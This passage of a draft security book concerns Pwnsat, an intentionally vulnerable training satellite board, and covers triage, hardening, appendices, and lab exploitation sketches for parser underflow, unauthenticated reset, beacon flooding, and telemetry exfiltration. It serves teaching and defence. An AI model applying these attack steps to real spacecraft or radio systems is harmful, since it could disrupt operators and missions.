USB-first testing removes RF uncertainty. RF should be treated as a delivery mechanism after the exploit primitive is understood.

## Triage for APID `0x06`

The broadcast handler contains the strongest memory-corruption candidate:

```text
payload_total = space_packet->header.length + 1
msg_len = payload_total - 2
memcpy(buffer_msg, space_packet->data + 2, msg_len)
```

Triage questions:

- Does `payload_total < 2` trigger a crash?
- Does the crash happen inside `memcpy()` or later?
- Does the source pointer read beyond `space_packet->data`?
- Does the destination overflow corrupt nearby stack variables?
- Is the return path affected?
- Are fault registers stable across runs?
- Does the same payload behave differently over USB and RF?

Document every answer. Reliability is built from boring repetition.

## Using the Map File

The map file helps connect addresses to functions and objects.

Examples of useful lookups:

| Symbol | Why It Matters |
| --- | --- |
| `spp_unpack_packet` | Parser entry point. |
| `commandApidHandler` | APID dispatch and vulnerable handlers. |
| `downlinkRadioTransmitBroadcast` | RF retune behavior. |
| `telemetrySPPTransmitFlash` | Blocking transfer behavior. |
| `radio0`, `radio1` | Radio driver object placement. |
| `USBRadioLink` | USB command path state. |
| `image_data` | Static exfiltration blob. |

When a fault address appears, use the map to determine whether it points into code, SRAM, invalid memory, or a peripheral range.

## Crash Record Template

Use the same record format for every crash:

```text
Test ID:
  Unique name, such as APID06_UNDERFLOW_001.

Transport:
  USB raw, USB framed, or RF ASCII-hex.

Packet:
  Raw SPP bytes and decoded fields.

Expected:
  What the handler should do.

Observed:
  Logs, LEDs, telemetry, reset, or lockup.

Fault Data:
  PC, LR, SP, xPSR, fault address, if available.

Reproducibility:
  Number of successful reproductions over total attempts.

Interpretation:
  Parser bug, handler bug, transport issue, or unknown.
```

## Reliability Matrix

Track results across transports and payload variants.

| Test | USB Raw | USB Framed | RF ASCII-Hex | Notes |
| --- | --- | --- | --- | --- |
| PING | Expected ACK | Expected ACK | Expected ACK | Establish baseline. |
| RESET | Reboot | Reboot | Reboot | DoS primitive. |
| BEACON 0 | Beacon flood | Beacon flood | Beacon flood | Timing sensitive. |
| FLASH | Chunk transfer | Chunk transfer | Chunk transfer | Blocks normal telemetry. |
| APID 0x06 underflow | TBD | TBD | TBD | Requires debugger triage. |
| Truncated SPP | TBD | TBD | TBD | Parser-dependent. |

This matrix prevents a common mistake: calling an RF issue an exploit issue, or calling a USB framing problem a firmware vulnerability.

## From Crash to Exploit

A useful progression is:

1. **Reachability:** can the APID be invoked?
2. **Fault:** can malformed input crash the target?
3. **Control:** can the input influence fault state?
4. **Reliability:** does it behave consistently?
5. **Delivery:** does the same primitive work over RF?
6. **Impact:** what can the attacker actually achieve?

For a book, include each stage even when the final stage is not achieved. Failed control attempts are valuable because they teach constraints.

## Defensive Relevance

Reversing is not only for exploitation. The same evidence supports hardening:

- A stack overflow becomes a bounds-check requirement.
- A reset loop becomes a command-rate-limit requirement.
- A replayable command becomes an anti-replay requirement.
- A cleartext telemetry frame becomes an encryption and integrity requirement.

Every exploit chapter should end by turning the offensive primitive into an engineering control.


# Part V: Defense and Closure


# Phase 6: Defensive Engineering and Hardening

The purpose of offensive testing is not merely to break the board. It is to produce better spacecraft engineering habits. This phase converts the Pwnsat findings into defensive requirements.

Good hardening starts at trust boundaries:

- Who can send a command?
- Which command is allowed in the current mode?
- Is the packet fresh?
- Is the payload length valid?
- Is telemetry trustworthy?
- What happens when a link is unavailable?

## Defensive Priorities

| Priority | Control | Why |
| --- | --- | --- |
| 1 | Command authentication | Prevents rogue transmitters from issuing telecommands. |
| 2 | Bounds-checked parsing | Prevents malformed packets from becoming memory corruption. |
| 3 | APID authorization | Prevents low-risk paths from reaching high-impact handlers. |
| 4 | Anti-replay | Prevents captured commands from being reused. |
| 5 | Telemetry integrity | Prevents operators from trusting forged or corrupted state. |
| 6 | Rate limits | Reduces reset loops, beacon floods, and transfer abuse. |
| 7 | Safe-mode policy | Restricts dangerous commands during anomalous conditions. |

## Parser Hardening

The SPP parser should reject malformed packets before copying payload bytes.

Minimum checks:

```text
buffer != NULL
buffer_len >= SPP_PRIMARY_HEADER_LEN
version == CCSDS_SPP_VERSION
data_field_size = header.length + 1
data_field_size <= SPP_MAX_PAYLOAD_CHUNK
buffer_len == SPP_PRIMARY_HEADER_LEN + data_field_size
```

If trailing bytes are allowed, document the policy explicitly and keep them out of command dispatch.

## APID Policy

Every APID should have a policy table.

| APID | Direction | Minimum Payload | Maximum Payload | Auth Required | Mode Requirement |
| --- | --- | --- | --- | --- | --- |
| `0x01` PING | TC/TM | 0 | Small | Optional or low | Any mode |
| `0x02` RESET | TC | 0 | 0 | Required | Maintenance or safe mode |
| `0x03` SEND_FW | TC/TM | 0 | 0 | Required | Any authorized mode |
| `0x04` SET_THRUSTER | TC | 2 | 2 | Required | Simulation or actuator-safe mode |
| `0x05` SET_BEACON_RATE | TC | 1 | 1 | Required | Any authorized mode |
| `0x06` BROADCAST_MSG | TC/TM | 2 | Bounded | Required | Communications maintenance |
| `0x07` FLASH | TC/TM | 0 | Bounded | Required | Transfer mode |
| `0x08` SEND_TM | TM | Fixed | Fixed | N/A | Any mode |

The dispatcher should check this table before entering a handler.

## Authentication and Integrity

For an educational board, a simple message authentication code is enough to teach the design. For mission systems, key management, operational procedures, and hardware constraints must be engineered carefully.

Required properties:

- The receiver can verify the sender.
- The packet cannot be modified without detection.
- Old packets cannot be replayed.
- High-impact APIDs require stronger authorization.

Possible design pattern:

```text
SPP Primary Header
Command Metadata
  - spacecraft ID
  - command counter
  - timestamp or nonce
  - APID policy flags
Payload
Authentication Tag
```

The authentication tag should cover the header fields that affect dispatch, not only the payload.

## Replay Protection

Sequence counters in the SPP header are not enough unless the firmware enforces them.

Replay defenses:

- Maintain the last accepted command counter per APID or session.
- Reject counters that move backward.
- Reject duplicates.
- Expire commands after a short validity window.
- Bind counters to authenticated sessions.

For intermittent satellite links, replay policy must tolerate packet loss without allowing unlimited reuse.

## Command Rate Limits

Rate limits reduce denial-of-service impact.

| Command | Suggested Control |
| --- | --- |
| RESET | Cooldown, confirmation, and authorization. |
| BEACON_RATE | Minimum interval and change-rate limit. |
| FLASH | Transfer quota and explicit transfer state. |
| BROADCAST_MSG | Frequency allowlist, duration limit, payload limit. |
| SET_THRUSTER | Mode gate, range limit, and command audit. |

Rate limits should fail closed. If the firmware cannot decide whether a command is safe, it should reject it.

## Telemetry Hardening

Telemetry should be trustworthy enough for operators to make decisions.

Controls:

- Add sensor validity flags.
- Report sensor read failures explicitly.
- Clamp impossible values.
- Detect sudden jumps.
- Include sequence counters.
- Add integrity protection.
- Include command acceptance/rejection events.

For Pwnsat, `bmeRead()` and `accelerometerRead()` return status, but the telemetry worker does not use that status to mark telemetry invalid. That is a useful hardening exercise.

## RF Hardening

RF cannot be assumed private.

Controls:

- Encrypt sensitive telemetry.
- Authenticate telecommands.
- Monitor RSSI and SNR anomalies.
- Detect repeated failed command authentication.
- Use directional antennas where appropriate.
- Plan degraded modes for link loss.
- Avoid arbitrary retune commands unless strongly authorized.

Jamming cannot always be prevented, so mission design must include detection and recovery.

## Secure Debug and Build Artifacts

Debug access is valuable in the lab and dangerous in deployment.

Deployment controls:

- Disable or lock debug interfaces.
- Protect firmware readout where supported.
- Avoid shipping unnecessary symbols.
- Sign firmware images.
- Keep build artifacts out of public release packages unless intentionally published.
- Separate educational builds from hardened builds.

Open-source design is compatible with security, but only when the system does not depend on secrecy for command authorization.

## Hardening Checklist

Use this checklist after every vulnerability:

- Is every length checked before copy?
- Is every APID authorized before dispatch?
- Are TC-only and TM-only directions enforced?
- Are reset and actuator commands protected?
- Are command counters enforced?
- Are telemetry values marked valid or invalid?
- Is RF input authenticated?
- Is sensitive telemetry encrypted or integrity-protected?
- Are debug ports locked in deployed configurations?
- Are rate limits present for expensive commands?

Hardening is not a patch at the end. It is the design discipline that keeps small parser mistakes from becoming mission failures.

## Booklet Exercise: Convert Findings Into Controls

Open [Booklet.ipynb](Booklet.ipynb) and complete **Part 4: Firmware Review Exercises**, **Part 5: Fuzzing**, **Part 6: SpaceCAN Bus Offline Exercises**, and **Part 7: Final Lab Report Template**.

For each finding, write:

- The vulnerable firmware function.
- The packet or capture evidence.
- The SPARTA mapping.
- The security impact.
- The recommended mitigation.

This turns the notebook from a parsing exercise into an engineering report.


# Conclusion

Pwnsat is deliberately small, but the lessons are large. The board compresses a spacecraft-style command link, telemetry path, packet parser, firmware dispatcher, sensors, radios, and debug surfaces into a lab environment that can be understood end to end.

The central lesson is that spacecraft security is systems security. A vulnerable parser matters because it sits behind a radio. A cleartext telemetry stream matters because operators trust it. An unauthenticated reset command matters because availability is a mission property. A sensor bus matters because telemetry is only as trustworthy as the data path that produced it.

The offensive workflow in this book followed a disciplined chain:

1. Understand the mission architecture.
2. Map the target with SPARTA.
3. Discover physical and logical interfaces.
4. Reverse the packet protocol.
5. Understand RF as an attack surface.
6. Validate exploitation locally.
7. Study reliability and firmware behavior.
8. Convert findings into hardening requirements.

That chain is the real tool. Individual vulnerabilities change from firmware to firmware, but the method carries forward.

The safest way to learn spacecraft offensive security is to break a system that was built to be broken, document what happened, and then engineer the fix. Pwnsat gives you that loop.


# Appendixes


# Appendix A: Lab Setup and Safety

This appendix defines the safe operating assumptions for the book.

## Required Lab Boundaries

- Test only hardware you own or are authorized to assess.
- Keep RF experiments low-power, shielded, or cabled where possible.
- Do not transmit against operational spacecraft, public services, or third-party ground infrastructure.
- Verify local radio regulations before transmitting.
- Prefer USB/local reproduction before RF delivery.

## Recommended Equipment

| Equipment | Use |
| --- | --- |
| Pwnsat/FlatSat board | Target platform. |
| USB cable | Local command and debug path. |
| Logic analyzer | I2C/SPI/UART/SWD discovery. |
| Multimeter | Ground and voltage reference checks. |
| SDR receiver | Passive RF observation where legal. |
| LoRa transceiver | Controlled lab uplink/downlink experiments. |
| SWD debugger | Crash triage and firmware debugging. |
| Faraday bag or shielded setup | RF containment for transmit tests. |

## Software Environment

Useful tools:

- Python 3
- Jupyter
- `pandas`
- `rich`
- `pyserial`
- `pwntools`
- `spacepackets`
- Clang/LLVM with libFuzzer support
- Logic analyzer software
- SDR capture software
- ARM disassembly/debugging tools

The exact RF tooling is intentionally external to this manuscript. The book focuses on firmware behavior, packet construction, and defensive analysis.

## Companion Notebook Setup

The exercise notebook is [Booklet.ipynb](Booklet.ipynb). Install the notebook dependencies with:

```shell
python3 -m pip install -r requirements-booklet.txt
```

The expected public exercise layout is:

```text
.
├── Booklet.ipynb
├── Flatsat_v1_Initial_start_exported.txt
├── Flatsat_v1_Initial_start.logicdata
├── resources
│   └── fuzzing
│       ├── fuzzing
│       ├── include
│       └── src
└── scripts
    ├── i2c_parser.py
    └── spp_tools.py
```

The `.logicdata` file preserves the original capture. The exported `.txt` file lets readers parse the data even if they do not have the original logic analyzer software.

The fuzzing resources are offline harnesses for the SPP library and a deliberately vulnerable local binary. They are not RF transmit tools and should be run before any hardware-facing experiment.

## Experiment Record

For each test, record:

- Date and firmware build.
- Transport: USB, RF receive-only, or RF transmit.
- Raw packet bytes.
- Decoded SPP fields.
- Expected behavior.
- Observed behavior.
- Logs or telemetry captures.
- Safety controls used.

Good notes are part of the exploit. They turn one surprising packet into a reproducible engineering finding.


# Appendix B: APID and Packet Reference

This appendix collects the packet values used throughout the book.

## APID Registry

| APID | Direction | Name | Description |
| --- | --- | --- | --- |
| `0x01` | TC/TM | PING | Liveness and ACK. |
| `0x02` | TC/TM defined, TC used | RESETC | Watchdog reset command and reset telemetry concept. |
| `0x03` | TC/TM | SEND_FW | Firmware version response. |
| `0x04` | TC/TM | SET_THRUSTER | Simulated thruster power control. |
| `0x05` | TC/TM | SET_BEACON_RATE | Beacon interval configuration. |
| `0x06` | TC/TM | BROADCAST_MSG | Broadcast message and frequency control. |
| `0x07` | TC/TM | FLASH | Chunked static data transfer. |
| `0x08` | TM | SEND_TM | Periodic sensor telemetry. |
| `0x7FF` | TM | IDLE | Idle packet APID. |

## SPP Primary Header

| Field | Size | Meaning |
| --- | --- | --- |
| Version | 3 bits | Should be `0`. |
| Packet Type | 1 bit | `0` telemetry, `1` telecommand. |
| Secondary Header Flag | 1 bit | Indicates optional secondary header. |
| APID | 11 bits | Application Process Identifier. |
| Sequence Flags | 2 bits | Segmentation state. |
| Sequence Count | 14 bits | Packet counter. |
| Data Length | 16 bits | Data field size minus one. |

## Bit Masks

```text
version          = (packet_id >> 13) & 0x7
packet_type      = (packet_id >> 12) & 0x1
secondary_header = (packet_id >> 11) & 0x1
apid             = packet_id & 0x7FF
sequence_flags   = (sequence >> 14) & 0x3
sequence_count   = sequence & 0x3FFF
data_size        = length_field + 1
```

## Pwnsat RF Parameters

| Link | Frequency | Bandwidth | Spreading Factor | Coding Rate |
| --- | --- | --- | --- | --- |
| Uplink | 918 MHz | 250 kHz | SF7 | CR5 |
| Downlink | 916 MHz | 250 kHz | SF7 | CR5 |

## Payload Quick Reference

| APID | Payload |
| --- | --- |
| `0x01` PING | Usually empty or small liveness payload. |
| `0x02` RESETC | Empty. |
| `0x03` SEND_FW | Empty request; response includes version. |
| `0x04` SET_THRUSTER | `thruster_id`, `thruster_power`. |
| `0x05` SET_BEACON_RATE | `interval_seconds`. |
| `0x06` BROADCAST_MSG | `frequency_hi`, `frequency_lo`, `message...`. |
| `0x07` FLASH | Empty request; response is chunked. |
| `0x08` SEND_TM | Telemetry response generated periodically. |


# Appendix C: Glossary

**ADCS:** Attitude Determination and Control System. Determines and controls spacecraft orientation.

**APID:** Application Process Identifier. An SPP field used to route packets to application handlers.

**C&DH:** Command and Data Handling. The subsystem that processes commands and routes telemetry or payload data.

**CCSDS:** Consultative Committee for Space Data Systems. Publishes standards used in space communications.

**CSS:** Chirp Spread Spectrum. A modulation technique used by LoRa.

**Downlink:** Communication from spacecraft to ground.

**EPS:** Electrical Power System. Generates, stores, and distributes spacecraft power.

**FlatSat:** A satellite-like hardware testbed laid out on a bench for integration, testing, and training.

**I2C:** Two-wire serial bus commonly used for sensors.

**Jamming:** RF availability attack that prevents a receiver from decoding legitimate traffic.

**LoRa:** A physical-layer modulation based on chirp spread spectrum.

**LoRaWAN:** A higher-level network protocol that uses LoRa modulation and adds network/security features.

**MOC:** Mission Operations Center.

**Replay:** Reuse of a previously captured valid message.

**RF:** Radio frequency.

**SPARTA:** Space Attack Research and Tactic Analysis framework.

**SPI:** Serial Peripheral Interface. Common bus for radios, flash, and fast peripherals.

**SPP:** Space Packet Protocol.

**SWD:** Serial Wire Debug. ARM debug interface.

**TC:** Telecommand. A command sent to the spacecraft.

**TM:** Telemetry. Data sent from the spacecraft.

**TT&C:** Telemetry, Tracking, and Command.

**Uplink:** Communication from ground to spacecraft.


# Firmware Vulnerability and Exploitation Draft

This draft captures the vulnerabilities discovered during source-code review of the Pwnsat firmware. It is intended as raw material for later exploitation chapters. Every exploitation path assumes an isolated Pwnsat/FlatSat lab target, authorized RF equipment, and legal frequency/power settings.

The firmware exposes two command ingress paths:

```text
RF uplink -> ASCII-hex decode -> SPP parser -> APID dispatcher -> command handler
USB CDC   -> framed raw bytes  -> SPP parser -> APID dispatcher -> command handler
```

The key architectural issue is that both paths converge on `commandHandler()` and then `commandApidHandler()` without authentication, authorization, replay protection, or APID direction enforcement.

## Validated Architecture

| Area | Evidence | Notes |
| --- | --- | --- |
| Uplink radio | `ruplink.h`, `ruplink.cpp` | SX1262 on 918 MHz, BW 250 kHz, SF7, CR5. |
| Downlink radio | `rdownlink.h`, `rdownlink.cpp` | SX1262 on 916 MHz, BW 250 kHz, SF7, CR5. |
| SPP parser | `spp.cpp` | Parses primary header, validates version, copies data field. |
| APID registry | `mission.h` | Defines APIDs `0x01` through `0x08`. |
| Command dispatcher | `worker.cpp` | Executes reset, thruster, beacon, broadcast, flash, and version handlers. |
| Sensor telemetry | `sensors.cpp`, `pins.h` | BME280 at `0x76`; I2C on SDA 20/SCL 21. |
| Build artifacts | `firmware/build/rp2040.rp2040.generic` | ELF, map, bin, and UF2 are present for reversing. |

## APID Attack Surface

| APID | Name | Handler Behavior | Security Notes |
| --- | --- | --- | --- |
| `0x01` | PING | Sends ACK telemetry. | Useful for liveness checks, replay testing, and timing. |
| `0x02` | RESETC | Blinks LEDs and calls watchdog reset. | Unauthenticated denial of service. |
| `0x03` | SEND_FW | Returns firmware version. | Information disclosure; helps fingerprint target. |
| `0x04` | SET_THRUSTER | Sets simulated thruster power from two payload bytes. | Unauthorized actuator-style state change. |
| `0x05` | SET_BEACON_RATE | Sets beacon interval from one payload byte. | Accepts zero seconds, enabling beacon flood. |
| `0x06` | BROADCAST_MSG | Reads two-byte frequency, copies remaining payload, transmits on requested frequency. | Integer underflow and arbitrary lab RF retune attempt. |
| `0x07` | FLASH | Sends a chunked 255-byte image/blob over telemetry. | Repeatable blocking transmission and data exfiltration primitive. |
| `0x08` | SEND_TM | Periodic telemetry APID. | Cleartext sensor and thruster state exposure. |

## VULN-001: Unauthenticated RF Telecommand Execution

**Class:** Missing authentication and authorization.

**Evidence:**

- `uplinkRadioCheckPacketReceived()` receives data, converts ASCII hex to raw bytes, and invokes the registered callback.
- `setup()` registers `commandHandler` as the RF callback.
- `commandHandler()` parses the packet and dispatches by APID.
- No cryptographic authentication, source validation, authorization table, or replay protection appears before dispatch.

**Impact:**

Any lab transmitter that matches the configured LoRa parameters can attempt telecommands. The result is unauthorized access to reset, beacon, thruster, broadcast, flash, and version handlers.

**SPARTA Mapping:**

- `IA-0008.01 Rogue Ground Station`
- `EX-0001.01 Command Packets`

**Lab Exploitation Sketch:**

1. Configure a lab transmitter for the uplink parameters.
2. Build a valid SPP telecommand frame with packet type `TC`.
3. ASCII-hex encode the raw frame for the RF input path.
4. Transmit the frame and observe downlink/USB response.

**Expected Result:**

The board accepts commands without proving that the transmitter is authorized.

**Mitigation:**

Add message authentication, command authorization, anti-replay counters, and explicit APID/type policy before `commandApidHandler()`.

## VULN-002: Cleartext Telemetry Downlink

**Class:** Missing confidentiality and integrity protection.

**Evidence:**

- Telemetry builders in `worker.cpp` pack sensor values and state into plaintext buffers.
- `transmitPacketRadioUSB()` writes the same packet to USB CDC and downlink radio.
- `downlinkRadioTransmit()` and `downlinkRadioTransmitNBlock()` send raw SPP bytes.

**Impact:**

Any compatible lab receiver can decode telemetry values, firmware version responses, ACKs, idle packets, and flash-transfer chunks.

**SPARTA Mapping:**

- `REC-0005.02 Downlink Intercept`
- `EXF-0003.02 Downlink Exfiltration`

**Lab Exploitation Sketch:**

1. Configure a receiver for 916 MHz, BW 250 kHz, SF7, CR5.
2. Capture downlink frames during normal telemetry intervals.
3. Parse the SPP primary header.
4. Decode APID `0x08` as telemetry and correlate fields with I2C sensor reads.

**Expected Result:**

Telemetry can be read without keys, pairing, authentication, or transport security.

**Mitigation:**

Use authenticated encryption or at minimum integrity protection for mission-sensitive telemetry. Add packet counters and receiver-side replay detection.

## VULN-003: SPP Parser Out-of-Bounds Read on Truncated Packets

**Class:** Length validation failure.

**Evidence:**

`spp_unpack_packet()` validates:

- `buffer_len >= 6`
- `version == 0`
- `header.length <= SPP_MAX_PAYLOAD_CHUNK`

It does not validate:

```text
buffer_len >= SPP_PRIMARY_HEADER_LEN + header.length + 1
```

Then it copies:

```text
memcpy(space_packet->data, buffer + 6, header.length + 1)
```

**Impact:**

A packet can declare a larger data field than the actual received frame. The parser will read beyond the received buffer into adjacent stack memory. Depending on runtime layout, this may cause malformed command data, instability, or data-dependent behavior inside handlers.

**SPARTA Mapping:**

- `EX-0013.02 Erroneous Input`

**Lab Exploitation Sketch:**

1. Build a valid six-byte SPP header with a small APID such as `0x06`.
2. Set `length` to a value accepted by the parser.
3. Send fewer payload bytes than the declared `length + 1`.
4. Observe whether handler behavior changes based on adjacent memory read into `space_packet->data`.

**Expected Result:**

The parser accepts a truncated packet and copies bytes that were not part of the received frame.

**Mitigation:**

Reject packets unless `buffer_len == 6 + length + 1`, or define and enforce a documented trailing-byte policy.

## VULN-004: Broadcast APID Integer Underflow and Unsafe Copy

**Class:** Integer underflow leading to memory corruption.

**Evidence:**

The APID `0x06` handler assumes the payload contains at least a two-byte frequency field:

```text
frequency = data[0] << 8 | data[1]
payload_total = header.length + 1
msg_len = payload_total - 2
memcpy(buffer_msg, data + 2, msg_len)
```

If the declared data field is shorter than two bytes, `msg_len` underflows because it is a `size_t`. The destination buffer is `SPP_MAX_PAYLOAD_CHUNK` bytes, but the copy length becomes extremely large.

**Impact:**

This is the strongest memory-corruption candidate in the current firmware. In the lab it may cause crash, reset, stack corruption, or, with careful control of layout and payload, control-flow corruption.

**SPARTA Mapping:**

- `EX-0013.02 Erroneous Input`
- `EX-0001.01 Command Packets`

**Lab Exploitation Sketch:**

1. Build a TC packet for APID `0x06`.
2. Use a data length field that results in `payload_total < 2`.
3. Send the packet over USB first for repeatable debugging.
4. Repeat over RF after confirming behavior locally.
5. Use the ELF/map file to guide crash triage and stack-layout analysis.

**Expected Result:**

The handler attempts an oversized copy from `data + 2` into a fixed-size local buffer.

**Mitigation:**

Require `payload_total >= 2` before reading frequency. Require `msg_len <= sizeof(buffer_msg)`. Return an error telemetry packet on malformed input.

## VULN-005: RF-Triggered Code Execution Candidate

**Class:** Remote memory corruption reachable from RF.

**Evidence:**

The RF path reaches the vulnerable APID `0x06` handler:

```text
uplinkRadioCheckPacketReceived()
  -> hexStringToBytes()
  -> commandHandler()
  -> spp_unpack_packet()
  -> commandApidHandler()
  -> BROADCAST_MSG unsafe copy
```

The firmware also ships an ELF and map file, which lowers the cost of symbol recovery and crash triage.

**Impact:**

This should be treated as a candidate path for RF-triggered code execution in the lab. The source proves RF reachability and memory corruption. A full RCE claim should be made only after demonstrating control of execution, such as a controlled program counter, controlled fault address, or reliable redirection to a known function.

**SPARTA Mapping:**

- `IA-0008.01 Rogue Ground Station`
- `EX-0013.02 Erroneous Input`

**Lab Exploitation Plan:**

1. Reproduce the crash through USB CDC to simplify iteration.
2. Attach SWD or serial logging to capture fault behavior.
3. Use `firmware.ino.elf` and `firmware.ino.map` to identify function addresses and stack layout.
4. Determine whether the overflow can control saved registers or adjacent stack state.
5. Port the working trigger to RF by ASCII-hex encoding the same SPP frame.

**Mitigation:**

Fix VULN-003 and VULN-004 first. Then add compiler hardening where available, crash telemetry, and command authentication.

## VULN-006: Unauthenticated Reset Denial of Service

**Class:** Command abuse / denial of service.

**Evidence:**

APID `0x02` calls:

```text
watchdog_reboot(0, 0, 0)
```

There is no authentication, confirmation, rate limit, safe-mode check, or command role separation.

**Impact:**

An attacker in the lab RF environment can repeatedly reboot the board and prevent stable telemetry or command processing.

**SPARTA Mapping:**

- `EX-0001.01 Command Packets`
- `DE-0002.03 Inhibit Spacecraft Functionality`

**Lab Exploitation Sketch:**

1. Send APID `0x02` as a valid TC packet.
2. Observe LED sequence and reboot.
3. Repeat at intervals shorter than mission recovery time.

**Expected Result:**

The board remains unavailable or unstable.

**Mitigation:**

Require authentication and elevated authorization for reset. Add rate limits, command confirmation, and lockout after repeated reset attempts.

## VULN-007: Beacon-Rate Abuse and Mission Loop Starvation

**Class:** Logic flaw / denial of service.

**Evidence:**

APID `0x05` reads one byte:

```text
b_seconds = data[0]
if (b_seconds > 10) reject
t_radio_beacon.interval = b_seconds * 1000
```

The value `0` is accepted. The telemetry worker then sends beacon packets whenever:

```text
t_radio_beacon.interval != 15000 &&
millis() - previous > interval
```

With interval `0`, the condition is true almost continuously.

**Impact:**

The board can be forced into excessive beacon transmission, increasing RF/USB traffic and starving normal mission behavior. This is a practical DoS against the mission loop running on the main core.

**SPARTA Mapping:**

- `EX-0001.01 Command Packets`
- `DE-0002.03 Inhibit Spacecraft Functionality`

**Lab Exploitation Sketch:**

1. Send APID `0x05` with payload `0x00`.
2. Monitor downlink and USB traffic.
3. Confirm increased beacon rate and degraded telemetry scheduling.

**Mitigation:**

Reject `0`, enforce a minimum interval, rate-limit configuration changes, and separate beacon scheduling from command processing.

## VULN-008: Flash-Transfer Command as Blocking DoS and Data Exfiltration

**Class:** Command abuse / exfiltration.

**Evidence:**

APID `0x07` invokes `telemetrySPPTransmitFlash()`, which:

- Sets `block_tx = true`.
- Sends the static `image_data` array in chunks.
- Uses blocking transmit and `delay(100)` per chunk.
- Suppresses normal telemetry while `block_tx` is true.

**Impact:**

Repeated flash-transfer requests can degrade mission telemetry and force repeated disclosure of the embedded blob.

**SPARTA Mapping:**

- `EX-0001.01 Command Packets`
- `EXF-0003.02 Downlink Exfiltration`
- `DE-0002.03 Inhibit Spacecraft Functionality`

**Lab Exploitation Sketch:**

1. Send APID `0x07`.
2. Capture APID `0x07` telemetry chunks.
3. Reassemble by packet index and offset.
4. Repeat the command to observe telemetry starvation.

**Mitigation:**

Authenticate file-transfer commands, add transfer quotas, move long transfers to a controlled state machine, and avoid blocking normal telemetry.

## VULN-009: Unauthorized Thruster State Manipulation

**Class:** Unauthorized actuator-style command.

**Evidence:**

APID `0x04` reads:

```text
thruster_id = data[0]
thruster_power = data[1]
```

It then updates simulated thruster power without authentication or range policy beyond the `uint8_t` type.

**Impact:**

The lab attacker can change mission state reflected in telemetry. On a real spacecraft, analogous actuator commands would require strong authorization and safety interlocks.

**SPARTA Mapping:**

- `EX-0001.01 Command Packets`
- `EX-0014.02 Bus Traffic Spoofing`, when used to manipulate operator-visible state through accepted command/data paths.

**Lab Exploitation Sketch:**

1. Send APID `0x04` with `thruster_id = 0` or `1`.
2. Set a visible power value.
3. Observe the changed thruster fields in subsequent APID `0x08` telemetry.

**Mitigation:**

Authenticate actuator commands, enforce allowed ranges, require mode checks, and emit audit telemetry.

## VULN-010: USB CDC Parser Can Stall on Oversized Declared Frames

**Class:** Framing logic flaw / local denial of service.

**Evidence:**

`obcUSBRecv()` accepts a two-byte frame length. It rejects `len > MAX_FRAME_SIZE`, but `len == MAX_FRAME_SIZE` is accepted even though the total frame is `HEADER_SIZE + len`, which is larger than the receive buffer.

When the parser sees a valid header and a large length that cannot fit in the current buffer, it breaks waiting for more bytes. If the buffer fills, the next call resets `rx_len`.

**Impact:**

A local USB sender can interfere with the USB command path and force parser resynchronization. This affects the second RP2040 core path used for USB CDC handling.

**SPARTA Mapping:**

- `DE-0002.03 Inhibit Spacecraft Functionality`

**Lab Exploitation Sketch:**

1. Send USB frame header `0xAA 0x55`.
2. Declare a length near the maximum boundary.
3. Withhold or fragment the body.
4. Observe USB command handling degradation or parser reset.

**Mitigation:**

Reject frames where `HEADER_SIZE + len > sizeof(rx_buffer)`. Add timeout-based frame discard and per-source rate limiting.

## VULN-011: Sensor Telemetry Trust and I2C Spoofing Surface

**Class:** Unauthenticated internal bus data.

**Evidence:**

The firmware initializes I2C on SDA 20/SCL 21, reads BME280 and LIS2DH12 values, and packs them into APID `0x08` telemetry. The return status from `bmeRead()` and `accelerometerRead()` is not used to suppress or mark invalid telemetry in `telemetryRadioWorker()`.

**Impact:**

With physical lab access, a researcher can manipulate sensor readings or bus behavior and observe downstream telemetry effects. This can mislead operator workflows that trust telemetry without plausibility checks.

**SPARTA Mapping:**

- `REC-0001.04 Data Bus Information`
- `EX-0014.03 Sensor Data`
- `EX-0014.02 Bus Traffic Spoofing`, when sensor manipulation is performed through an internal bus.

**Lab Exploitation Sketch:**

1. Capture I2C traffic during telemetry generation.
2. Correlate changed sensor values with APID `0x08`.
3. Emulate or manipulate sensor responses in a controlled setup.
4. Observe forged values in downlink telemetry.

**Mitigation:**

Use plausibility checks, sensor error flags, range limits, redundant measurements, and authenticated bus designs for critical data where feasible.

## Prioritized Exploitation Roadmap

| Priority | Target | Why |
| --- | --- | --- |
| 1 | SPP parser truncation and APID `0x06` underflow | Strongest path toward memory corruption and possible RF-triggered control-flow hijack. |
| 2 | Unauthenticated reset and beacon DoS | Simple, reliable, highly demonstrable. |
| 3 | Cleartext downlink telemetry | Foundational for protocol reversing and operator-state awareness. |
| 4 | Flash-transfer exfiltration | Good bridge between command injection and data reconstruction. |
| 5 | Thruster state manipulation | Useful mission-impact demonstration. |
| 6 | USB CDC frame stalling | Good local/second-core DoS exercise. |
| 7 | I2C telemetry spoofing | Completes the hardware-to-telemetry attack chain. |

## Evidence Checklist for Future Chapters

Before writing the final exploitation chapters, collect:

- A valid APID `0x01` RF ping and downlink ACK.
- A downlink APID `0x08` telemetry capture.
- A reset demonstration with APID `0x02`.
- A beacon flood demonstration with APID `0x05` payload `0x00`.
- A flash-transfer capture and reassembly.
- A crash log or debugger trace for APID `0x06` malformed payload.
- A USB CDC reproduction of the same APID `0x06` bug.
- A logic analyzer trace linking I2C sensor reads to telemetry changes.

## Notes for Wording in the Book

Use careful claim levels:

- "Confirmed unauthenticated command execution" is supported by source code.
- "Confirmed cleartext telemetry" is supported by source code.
- "Confirmed memory-corruption candidate" is supported by the APID `0x06` unsafe copy.
- "RF-triggered code execution" should remain a candidate until a debugger trace proves control of execution.
- The USB CDC denial-of-service scenario should be described as affecting the USB CDC core or second-core command path, because RP2040 exposes core 0 and core 1 rather than a numbered third core.


# Fuzzing Draft


compile


dict


pack


Unpack


```shell
╭─[NULLDOGS-seecwinter | 192.168.0.20] ~/Desktop/Booklet_V1                                                                                                                               20:05:58
╰──▶ ./resources/fuzzing/fuzzing/output/fuzz_spp_unpack  -runs=5000  -dict=resources/fuzzing/fuzzing/spp.dict  resources/fuzzing/fuzzing/corpus
fuzz_spp_unpack(3181,0x1f8d86240) malloc: nano zone abandoned due to inability to reserve vm space.
Dictionary: 8 entries
INFO: Running with entropic power schedule (0xFF, 100).
INFO: Seed: 1520146530
INFO: Loaded 1 modules   (56 inline 8-bit counters): 56 [0x1020cc1a8, 0x1020cc1e0),
INFO: Loaded 1 PC tables (56 PCs): 56 [0x1020cc1e0,0x1020cc560),
INFO:        9 files found in resources/fuzzing/fuzzing/corpus
INFO: -max_len is not provided; libFuzzer will not generate inputs larger than 4096 bytes
